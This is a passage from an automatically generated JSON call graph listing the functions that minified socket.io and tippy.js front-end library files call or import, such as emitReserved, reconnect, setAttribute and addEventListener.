"EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onclose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "_destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onclose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reconnection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reconnectionAttempts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reconnectionDelay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reconnectionDelayMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "randomizationFactor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reconnectionDelayMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "randomizationFactor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "timeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setMin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setJitter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onopen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "maybeReconnectOnOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setTimeoutFn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "unref"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "_close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "_close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "duration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setTimeoutFn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onreconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "unref"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "static/js/tippy-6.js", "target": "@popperjs/core"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "cancelAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "onShow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forceUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "onHide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "unmount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "unmount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "clearDelayTimeouts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "unmount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "clearDelayTimeouts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "composedPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "clearDelayTimeouts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "hideWithInteractivity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "createPopper"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "clearDelayTimeouts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "setProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/tippy-6.js", "target": 